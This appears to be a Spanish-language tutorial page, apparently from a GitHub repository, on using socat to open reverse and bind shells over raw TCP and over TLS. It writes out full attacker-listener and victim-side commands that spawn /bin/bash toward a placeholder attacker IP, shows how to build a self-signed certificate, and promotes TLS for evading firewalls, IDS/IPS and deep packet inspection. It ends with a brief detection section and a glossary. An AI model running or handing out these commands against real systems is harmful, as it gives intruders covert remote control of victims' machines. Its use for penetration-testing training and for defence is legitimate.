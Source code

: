 ### ► FUNCIONAMIENTO DE SOCAT Y SHELLS ENCRIPTADAS

---

## ● 1. ¿QUÉ HACE SOCAT?

`socat` conecta dos *endpoints* (puntos de entrada/salida), como si fuera un “puente de datos”.

Permite:

* Enviar datos de una shell a través de una red.
* Redirigir flujo entre puertos, archivos, dispositivos o procesos.
* Cifrar comunicaciones con TLS.

---

## ● 2. ¿QUÉ ES UNA REVERSE SHELL?

Shell remota que la **víctima inicia hacia el atacante**.
El atacante escucha con un puerto abierto.
La víctima se conecta a ese puerto y ejecuta comandos.

**socat lo permite de forma transparente, incluso con TLS.**

---

## ● 3. COMUNICACIÓN SIN CIFRAR (RAW TCP)

### Reverse shell (sin TLS):

**Atacante (escucha):**

```bash
socat TCP-LISTEN:4444,reuseaddr,fork STDOUT
```

**Víctima (conecta):**

```bash
socat EXEC:"/bin/bash",pty,stderr,setsid,sigint,sane TCP:<IP_ATACANTE>:4444
```

* Envío directo. Inspeccionable con Wireshark, IDS o firewall.

---

## ● 4. COMUNICACIÓN CON CIFRADO (TLS)

Para proteger el canal con **SSL/TLS**, se encapsula la shell dentro de una conexión cifrada.
Esto **evita detección por firewalls, IDS/IPS y DPI**.

---

### PASO 1: Crear certificado TLS

```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out cert.pem
cat cert.pem key.pem > fullchain.pem
```

Este archivo se usa para simular que el atacante es un "servidor HTTPS".

---

### PASO 2: Reverse Shell Encriptada

**Servidor (Atacante):**

```bash
socat OPENSSL-LISTEN:4444,reuseaddr,fork,cert=fullchain.pem,key=key.pem STDOUT
```

**Cliente (Víctima):**

```bash
socat EXEC:"/bin/bash",pty,stderr,setsid,sigint,sane OPENSSL:<IP_ATACANTE>:4444,verify=0
```

* `OPENSSL:` indica canal cifrado.
* `verify=0` desactiva validación de certificado del servidor (lo acepta igual).

---

### PASO 3: Bind Shell Encriptada

**Servidor (Víctima):**

```bash
socat OPENSSL-LISTEN:4444,reuseaddr,fork,cert=fullchain.pem,key=key.pem \
      EXEC:"/bin/bash",pty,stderr,setsid,sigint,sane
```

**Cliente (Atacante):**

```bash
socat STDIO OPENSSL:<IP_VICTIMA>:4444,verify=0
```

Aquí el atacante se conecta a la víctima que escucha.

---

## ● 5. COMPORTAMIENTO INTERNO

* `socat` inicia dos *descriptores de flujo* (uno por cada extremo).
* Usa multiplexación para mantener activo stdin/stdout.
* Emula TTY para soportar interacción shell (sin esto: problemas con autocompletado, enter, colores).
* Capa TLS encapsula todo el tráfico saliente/entrante.
* No cifra datos internamente: solo el canal de transmisión.

---

## ● 6. PROTECCIÓN Y DETECCIÓN

**SIN TLS**

* Fácilmente visible como tráfico plano.
* Comandos detectables.
* IDS como Snort/Suricata pueden levantar alertas.

**CON TLS**

* Tráfico indistinguible de HTTPS legítimo.
* Puede evadir inspecciones superficiales.
* Certificados autofirmados pueden ser indicio si hay análisis de certificados.

---

## ● 7. GLOSARIO

| Término            | Significado                                                                                                          |
| ------------------ | -------------------------------------------------------------------------------------------------------------------- |
| **socat**          | Herramienta para enlazar flujos de datos entre dos endpoints. Más potente que netcat.                                |
| **endpoint**       | Punto de inicio o fin de una conexión: puede ser una shell, archivo, puerto, etc.                                    |
| **reverse shell**  | La víctima se conecta al atacante para entregar una shell.                                                           |
| **bind shell**     | La víctima abre un puerto y espera conexiones del atacante.                                                          |
| **TTY / PTY**      | Terminal virtual interactiva. Permite que la shell funcione correctamente (colores, enter, flechas, etc.).           |
| **SSL/TLS**        | Protocolos de cifrado de datos en tránsito. TLS es la versión moderna.                                               |
| **CERT / KEY**     | Archivos necesarios para establecer una conexión TLS. El certificado contiene la identidad, la clave permite cifrar. |
| **verify=0**       | Instrucción para ignorar la validación del certificado en conexiones TLS.                                            |
| **reuseaddr**      | Permite reusar un puerto inmediatamente después de cerrar la conexión.                                               |
| **fork**           | Permite múltiples conexiones concurrentes en un mismo puerto.                                                        |
| **setsid**         | Inicia una nueva sesión del proceso (importante para shells estables).                                               |
| **sigint**         | Captura señales como Ctrl+C para que funcionen correctamente en la shell.                                            |
| **STDIO / STDOUT** | Entrada/salida estándar de la terminal.                                                                              |

---


